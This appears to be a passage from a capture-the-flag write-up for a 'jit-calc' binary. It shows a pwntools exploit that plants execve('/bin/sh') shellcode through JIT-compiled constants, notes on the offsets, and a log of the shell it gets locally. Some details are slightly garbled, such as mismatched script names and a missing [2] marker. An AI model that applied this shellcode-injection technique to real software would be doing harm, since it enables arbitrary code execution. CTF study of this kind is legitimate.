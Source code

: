 ```python
p = proccess('./jit-calc')

read_welcome_msg()

start_writing_code()
for i in range(8):
    write_addition(1)
for i in range(95):
    write_constant_value(1, e.got['exit']) # [1]
write_constant_value(2, BINSH_HEX - e.got['exit'])
write_addition(1) # add rbx,rax


swap_index(1)
start_writing_code()
write_constant_value(1, 0x00000000000008eb)  
write_constant_value(1, 0x0003ebc4fe58426a) # push 0x42; pop rax; inc ah;
write_constant_value(1, 0x0003eb5f53529948) # cqo; push rdx; push rbx; pop rdi;
write_constant_value(1, 0x02ebd089495e5457) # push rdi; push $rsp; pop rsi; mov r8,rdx;
write_constant_value(1, 0x000000050fd28949) # mov r10,rdx; syscall
end_writing_code()


swap_index(0)
run_code()

p.interactive()
```

Note that I've added two things:
- [1] when filling function under index zero instead of placing some random value 0x41424344454647 I've placed got@exit address as it just has to some valid address (remember, there are `mov [rax], al` instructions between function zero and function one)
- [2] I've used movabs instructions to place '/bin/sh' inside rbx. But as the last instruction in function zero before the gap is `mov rbx, rax` therefore I had to substract it.

Now we can check our [exploit](exp.py):

```python
$python3 exp.py local
$ python3 exp2.py local
[*] '/home/k/ritsec/iit-calc/jit-calc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[!] Could not find executable 'jit-calc' in $PATH, using './jit-calc' instead
[+] Starting local process './jit-calc': pid 9744
[*] [x] filled 987 bytes and created magic assymetry
[*] Switching to interactive mode
$ id
uid=1000(k) gid=1000(k) groups=1000(k),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),132(libvirt)
```
